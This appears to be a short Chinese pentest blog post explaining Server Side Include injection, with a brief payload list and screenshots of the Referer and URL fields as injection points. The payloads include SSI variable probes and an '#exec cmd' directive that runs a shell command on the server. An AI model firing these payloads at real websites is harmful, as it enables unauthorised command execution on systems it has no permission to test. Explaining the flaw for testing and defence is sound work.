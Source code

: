 ```yaml
---
draft: false
date: 2017-06-08 11:20:15
title: SSI 注入
description: 
categories:
  - Pentest
tags:
  - injection
---
```


### 0x00 SSI
SSI (Server Side Includes)是HTML页面中的指令，在页面被提供时由服务器进行运算，以对现有HTML页面增加动态生成的内容，而无须通过CGI程序提供其整个页面，或者使用其他动态技术。

在很多场景中，用户输入的内容可以显示在页面中，一个存在反射XSS漏洞的页面，如果输入的payload不是xss代码而是ssi的标签，服务器又开启了ssi支持的话就会存在SSI漏洞

若注入点在url中则可能需要进行url编码

### 0x01 payload
```
"-->'-->`--><!--#set var="a" value="123"--><!--#set var="b" value="654"--><!--#echo var="a"--><!--#echo var="b"-->

<!--#echo var="DATE_LOCAL" -->

<!--#exec cmd="dir" -->
```

### 0x02 示例
* Referer被输出到了页面中

![ssi漏洞](/img/post/ssi_in_referer_request.png)

![ssi漏洞](/img/post/ssi_in_referer_response.png)

* url中的数据被输出到页面中(有时候url中的payload需要url编码)

![ssi漏洞](/img/post/ssi_in_url_request.png)

![ssi漏洞](/img/post/ssi_in_url_response.png)
